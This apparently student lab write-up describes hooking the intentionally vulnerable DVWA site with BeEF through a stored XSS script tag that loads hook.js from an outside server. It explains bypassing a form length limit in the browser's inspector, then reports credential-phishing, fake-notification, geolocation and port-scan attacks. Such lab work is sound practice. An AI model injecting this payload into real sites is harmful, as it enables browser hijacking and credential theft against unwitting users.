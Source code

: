 ## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

![pic](hook-3.PNG) 


* Victim entered the following: 

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

### 3. From the pictures above you can see that the attack was SUCCESSFULL

**Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

